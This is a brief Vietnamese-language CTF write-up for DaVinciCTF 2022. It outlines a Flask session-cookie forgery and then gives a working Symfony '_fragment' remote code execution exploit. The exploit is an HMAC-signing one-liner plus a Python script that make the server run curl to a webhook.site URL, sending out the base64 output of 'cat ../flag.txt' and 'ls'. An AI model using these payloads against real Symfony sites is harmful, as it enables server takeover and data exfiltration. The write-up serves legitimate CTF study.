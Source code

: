 # DaVinciCTF 2022

## CyberStreak v1.0

Bài này lười viết

Register => Login => flask-usisn => secret key => change cookie => id : 2 => flag



## 🎵

[Link tham khảo  phpinfo() exploite](https://www.ambionics.io/blog/symfony-secret-fragment)

![](<.gitbook/assets/image (54).png>)

Secret : 60b938ad59ac73568c7f2d6c282cd084

```
Hash
python -c "import base64, hmac, hashlib; print(base64.b64encode(hmac.HMAC(b'60b938ad59ac73568c7f2d6c282cd084', b'http://challs.dvc.tf:9000/_fragment?_path=_controller%3Dexec%26command%3Dcurl+-v+https%3A%2F%2Fwebhook.site%2Fdf59b6a7-6276-4ae2-92cb-c04780961c31%3Fa%3D%60cat+..%2Fflag.txt+%7C+base64+-w+0%60%26return_value%3Dnull', hashlib.sha256).digest()))"

+goJNhk9dRIosdtznVeqQtlVzB3EyFEubDi2lQu6/IM=

```



```python
import base64
import hmac
import hashlib
import requests
import urllib.parse

from payload import FUNCTION_NAME

url = 'challs.dvc.tf:9000/_fragment'

secret = '60b938ad59ac73568c7f2d6c282cd084'

FUNCTION_NAME = 'exec'

Command = {'command': ''' curl -v https://webhook.site/df59b6a7-6276-4ae2-92cb-c04780961c31?a=`ls ./ | base64 -w 0`''', 'return_value': 'null'}

if FUNCTION_NAME != '':
    payload = url + '?path=_controller%3D' + FUNCTION_NAME + '%26'
    for i in range(len(list(Command))):
        payload += list(Command)[i] + '%3D' + urllib.parse.quote_plus(Command[list(Command)[i]])
        if i != len(list(Command)) - 1:
            payload += '%26'
else:
    payload = url

print('fail : ' , payload)

hash = base64.b64encode(hmac.HMAC(secret, bytes(payload, encoding='UTF-8'), hashlib.sha256).digest()).decode()

print('hash : ' , hash)

final_url = payload + ('?' if FUNCTION_NAME == '' else '&') + '_hash=' + urllib.parse.quote_plus(hash)

print('Final URL :', final_url)

print(requests.get(final_url).text)
# request to webhook => flag base64
```
